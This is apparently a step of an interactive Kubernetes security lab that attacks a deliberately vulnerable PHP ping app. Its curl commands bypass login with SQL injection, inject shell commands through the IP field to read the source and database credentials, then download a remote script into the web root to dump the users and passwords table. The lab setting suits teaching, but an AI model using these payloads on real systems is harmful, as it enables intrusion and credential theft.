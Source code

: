 Unfortunately, it turns out our web application is faulty and susceptible to [SQL injection](https://en.wikipedia.org/wiki/SQL_injection) attacks:
`kubectl exec client -n ping -- curl -F "s=OK" -F "user=bad" -F "passwd=wrongpasswd' OR 'a'='a" -F "ipaddr=localhost" -X POST http://ping/ping.php`{{execute HOST1}}

An attacker can not only bypass the authentication mechanism, but even execute arbitrary commands:
`kubectl exec client -n ping -- curl -F "s=OK" -F "user=bad" -F "passwd=wrongpasswd' OR 'a'='a" -F "ipaddr=localhost; ps aux" -X POST http://ping/ping.php`{{execute HOST1}}

Through a series of commands, the attacker could easily get the source code for our ping app, which contains the database credentials:

`kubectl exec client -n ping -- curl -F "s=OK" -F "user=bad" -F "passwd=wrongpasswd' OR 'a'='a" -F "ipaddr=localhost; ls /var/www/" -X POST http://ping/ping.php`{{execute HOST1}}

`kubectl exec client -n ping -- curl -F "s=OK" -F "user=bad" -F "passwd=wrongpasswd' OR 'a'='a" -F "ipaddr=localhost; ls /var/www/html" -X POST http://ping/ping.php`{{execute HOST1}}

`kubectl exec client -n ping -- curl -F "s=OK" -F "user=bad" -F "passwd=wrongpasswd' OR 'a'='a" -F "ipaddr=localhost; cat /var/www/html/ping.php" -X POST http://ping/ping.php`{{execute HOST1}}

Once he knows the login details for the database, he could get a dump of its contents, including the table with all our users and their passwords:
`kubectl exec client -n ping -- curl -F "s=OK" -F "user=bad" -F "passwd=wrongpasswd' OR 'a'='a" -F "ipaddr=localhost; curl https://gist.githubusercontent.com/bencer/9e32fb1af89754b4ad8346b13dcd1110/raw/cd79134f420b59e84e6b60be3bdff7ca0bb42f1e/gistfile1.txt > /var/www/html/dump.php " -X POST http://ping/ping.php`{{execute HOST1}}

`kubectl exec client -n ping -- curl -F "s=OK" -F "user=bad" -F "passwd=wrongpasswd' OR 'a'='a" -F "ipaddr=localhost; sed -i -e 's/db/mysql/' /var/www/html/dump.php" -X POST http://ping/ping.php`{{execute HOST1}}

`kubectl exec client -n ping -- curl http://ping/dump.php`{{execute HOST1}}
